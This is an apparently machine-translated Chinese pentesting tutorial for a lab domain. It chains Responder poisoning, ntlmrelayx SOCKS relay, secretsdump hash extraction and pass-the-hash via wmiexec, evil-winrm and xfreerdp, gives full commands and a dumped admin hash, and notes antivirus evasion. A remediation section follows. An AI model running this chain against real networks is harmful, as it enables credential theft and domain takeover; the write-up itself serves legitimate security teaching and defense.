# 滥用 NTLM 中继和为管理员传递散列

> 原文：<https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0?source=collection_archive---------0----------------------->

随着 PetitPotam 最近的崛起，我受到启发，对整个 NTLM 接力赛做了更多的研究。所以我花了一些时间阅读不同的技术，并设法将我经常看到的两个想法结合起来，Responder/NTLMRelayx 和 Pass-The-Hash 在我的一些工作中取得了显著的效果。这些技术已经为人所知很多年了，但是仍然在没有实现强大网络安全的环境中使用。

对于有经验的 pentesters 来说，这可能不是什么开创性的或新的东西，但我在其他任何地方都没有见过像这篇文章这样的完整攻击链，所以我想我还是把它写下来吧。



攻击路径示例

> 注意:下面所有的例子都是在一个个人测试域上，所以，是的，这个例子的密码很容易被破解。

## NTLM 中继

在深入技术细节之前，让我们回顾一下 NTLM 中继，概述一下开发的必要条件。Windows 新技术局域网管理器(NTLM)是由 Microsoft 提供的一套安全协议，用于对 Windows 计算机上的用户进行身份验证和授权。NTLM 是一种挑战/响应式协议，其结果是 Net-NTLMv1 或 v2 哈希。这种散列相对来说很难破解，但是如果遵循强有力的随机长密码安全策略，它就能很好地保存。然而，Net-NTLM 哈希**不能**用于传递哈希(PTH)攻击，只有本地 NTLM 哈希在受害机器本身。

为了解决这个问题，我们在 SOCKS 服务器中继中捕获 Net-NTLM 散列，并使用这个认证从机器中提取本地 NTLM 散列。有了这些散列，我们就可以沿着标准的 PTH 攻击路径前进了。对于 PTH，我将展示使用 NTLM 散列的 3 种不同方法，并解释为什么一种可能比另一种更有帮助，这是基于真实世界的约定，包括避免反病毒。

要深入了解不同的 Windows 身份验证协议，我推荐阅读[https://medium . com/@ Peter gobos/lm-NTLM-net-NTLM v2-oh-my-a9 b 235 c 58 ed 4](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)，这是一篇关于不同部分的精彩文章。

## 先决条件

1.  局域网的第 2 层接入
2.  安装在 Linux 上的 [Impacket](https://github.com/SecureAuthCorp/impacket) (最好是 Kali，因为它预装了所有需要的工具)
3.  在受害者端点上禁用 SMB 签名(可以通过 crackmapexec 轻松检查)。

## 使用 CrackMapExec 识别 SMB 签名

这种攻击途径的第一步是收集 LAN 中禁用 SMB 签名的 IP 列表。SMB 签名是一项防止重放攻击的安全功能。但是，它通常被禁用以支持传统设备或提高网络速度。使用 [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) 无需签名即可轻松定位计算机:

`crackmapexec smb — gen-relay-list smb_targets.txt 192.168.1.0/24`



针对本地子网的 CrackMapExec 的输出

此命令显示子网中所有禁用签名的设备，并以方便的列表形式输出 IP，供以后使用。对于我们的示例，DC01 域控制器显示签名被禁用。

## NTLMRelayx

现在我们有了目标列表(smb_targets.txt)，我们可以设置 [NTLMRelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) ，这是我的中继，因为它与 Responder 集成在一起。如果您在查找脚本时遇到问题，请确保 Impacket 安装正确。

`ntlmrelayx.py -socks -smb2support -tf smb_targets.txt`

> 注意:对于我的网络，-smb2support 标志是不必要的，因为 SMBv1 是受支持的，但是通常 SMBv1 是禁用的，所以最好包含该标志。

-tf 标志根据文件中的 IP 列表自动测试任何捕获的凭据，而-socks 标志在端口 1080 上打开一个 socks 服务器，我们将使用它来中继捕获的凭据。



Ntlmrelayx.py 激活

## 代理链

为了通过创建的 SOCKS 代理发送请求，我们使用 proxychains。用`sudo nano /etc/proxychains4.conf`编辑/etc/proxychains4.conf，并将最后一行改为`socks4 127.0.0.1 1080`，指向新创建的 SOCKS 服务器。



代理链配置

## 回答者

既然先决条件已经完成，让我们开始有趣的部分吧！

[Responder](https://github.com/lgandx/Responder) 是众所周知的 LLMNR/NBT-NS/mDNS 投毒者和 NTLMv1/2 中继，会自动捕获网络上的任何请求。由于 ntlmrelayx.py 本身使用 SMB/HTTP 端口，请确保通过将`/etc/responder/Responder.conf`中的相应行从开编辑为关来禁用响应器端口。



响应器配置

然后在正确的接口上启动 Responder，在我的例子中是 eth0。

`sudo responder -I eth0`



响应程序启动

在这一点上，它只是一个在网络上捕获凭证的等待游戏。如果社交工程在范围内，您可以尝试让用户加载一个名称不正确的网络共享，这通常会触发 LLMNR 或 NBT-NS 广播，响应者可能会中毒。

## 获取哈希的方法

1.  如果您在某个端点上执行某种形式的命令，请让该端点尝试通过 CMD 或 Run 连接到一个伪共享。



通过 CMD 强制 NTLMv2 哈希

2.或者，如果社交工程在范围之内，你可以给用户发一封电子邮件，链接到这个虚假的网络共享，并尝试让他们点击它来加载。



响应者捕获发出的请求

# 袜子连接

无论是通过时间还是利用，您应该开始在 ntlmrelayx 输出中看到正在启动的会话。要查看捕获会话的完整列表，请在 ntlmrelayx 控制台中键入`socks`，您将看到目标 IP、用户，甚至该用户是否是管理员。



Ntlmrelayx socks 输出

如果您捕获的用户对目标具有 SMB 权限，并且没有防病毒或其他网络块，您可以通过 proxychains 利用 [smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) 来获得对端点的命令执行。需要注意的是 psexec.py 不起作用，因为它打开了多个连接，而 SOCKS 服务器不知道如何处理。

`proxychains4 -q smbexec.py test/testadmin:test@192.168.1.161`



smbexec 通过捕获的登录会话

然而，我发现这种直接的路径并不经常工作，通常是由于反病毒或 EDR 捕捉 smbexec 创建的服务。为了解决这个问题，我发现采取提取本地散列并在 PTH 攻击中使用它们的额外步骤要好得多。

## 秘密转储

第一步是获取目标的本地 NTLM 散列。为此，我们使用 Impacket 的 [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) ，它使用各种技术来转储本地和域散列。我们必须确保使用 proxychains 通过我们的 SOCKS 代理路由请求。

`proxychains4 -q secretsdump.py test/Testadmin:test@192.168.1.161`



Secretsdump.py 来提取本地哈希

> 注意:在我的例子中，我必须添加-use-vss 标志来提取散列。此外，由于凭证是通过 SOCKS 服务器传递的，所以您输入的密码并不重要。

大多数情况下，您需要本地 SAM 散列，但是由于我们的目标是没有本地帐户的域控制器，所以我们希望通过 NTDS 转储域凭证:“Administrator:500:aad3b 435 b 51404 eeaad3b 435 b 51404 ee:2b 576 acbe 6 BCF da 7294 D6 BD 18041 b8 Fe::::”。

## 传递散列值

既然我们已经将捕获的 Net-NTLM 登录转换为本地 Admin NTLM 散列，我们可以尝试传递该散列来获得对机器的内部访问。我使用了三种主要的方法来取得显著的效果:

1.  [Wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)

Wmiexec 是另一个 Impacket 远程命令，它使用 WMIC 发送命令，可以绕过捕获 smbexec 的 AV。

```
wmiexec.py -hashes ‘00000000000000000000000000000000:2b576acbe6bcfda7294d6bd18041b8fe’ administrator@192.168.1.161
```

> N 注:你必须用 0 替换 NTLM 散列的前部，这样才能工作。


wmicexec.py 绕过 AV

2.[邪恶-WinRm](https://github.com/Hackplayers/evil-winrm)

如果在端点上启用了 WINRM，那么令人敬畏的工具 Evil-WinRm 支持使用哈希。这是一种非常隐蔽的攻击，通常不会被任何安全解决方案捕获。

```
evil-winrm -u Administrator -H ‘2b576acbe6bcfda7294d6bd18041b8fe’ -i 192.168.1.161
```



Evil-WinRM PTH

3. [XfreeRDP](https://linux.die.net/man/1/xfreerdp)

对于更多以 GUI 为中心的攻击，可以使用 Xfreerdp 获得对终端的 rdp 访问权限。

```
xfreerdp /u:Administrator /pth:2b576acbe6bcfda7294d6bd18041b8fe /v:192.168.1.161
```



通过 PTH 的 XfreeRDP 访问

使用这些访问级别中的任何一个，攻击者都应该能够升级、关闭防御，或者毫不费力地在环境中移动。虽然这种攻击是针对域控制器的，但是捕获 Admin login -> Secretsdump -> PTH 的基本过程应该适用于任何端点。

# 补救

1.  启用 SMB 签名
2.  禁用 LLMNR
3.  禁用 NBT-NS
4.  监视

## 启用 SMB 签名

最简单的解决方案是在网络上启用 SMB 签名，这将立即防止中继攻击。但是，确认此变更不会影响任何传统设备是很重要的。

在**组策略管理编辑器**窗口的控制台树中，转到计算机配置/策略/Windows 设置/安全设置/本地策略/安全选项。

在细节窗格中，双击**微软网络服务器:数字签名通信(总是)**。

确认**定义此策略设置**复选框已选中，点击**启用**启用 SMB 数据包签名，然后点击**确定**



启用 SMB 签名

> 补救步骤摘自[http://mctexpert . blogspot . com/2011/02/disable-SMB-signing . html](http://mctexpert.blogspot.com/2011/02/disable-smb-signing.html)。

## **禁用 LLMNR**

1.  在您的 Windows 版本中打开组策略编辑器
2.  导航到本地计算机策略>计算机配置>管理模板>网络> DNS 客户端
3.  在 DNS 客户端下，确保“关闭多播名称解析”设置为启用

## **禁用 NBT-NS**

1.  打开网络连接并查看网络适配器的属性。
2.  选择互联网协议版本 4 (TCP/IPv4)并单击属性。
3.  在常规选项卡上，单击高级并导航到 WINS 选项卡，然后选择“禁用 TCP/IP 上的 NetBIOS”。

禁用 LLMNR 和 NTB-NS 将防止凭据被 Responder 之类的工具捕获，从而防止攻击者试图破解这些凭据。确保禁用这两个协议，因为当另一个协议失败/被禁用时，Windows 默认使用另一个协议。

> 补救措施从[https://cccsecuritycenter.org/remediation/llmnr-nbt-ns](https://cccsecuritycenter.org/remediation/llmnr-nbt-ns)撤出。

## **监控**

应对主机进行监控，以发现(1)LLMNR 和 NBT-NS 端口(UDP 5355 和 137)上的流量，(2)事件 id 为 4697 和 7045 的事件日志(与中继攻击相关)，以及(3)注册表 DWORD *EnableMulticast* 在*HKLM \软件\策略\微软\Windows NT\DNSClient* 下的更改。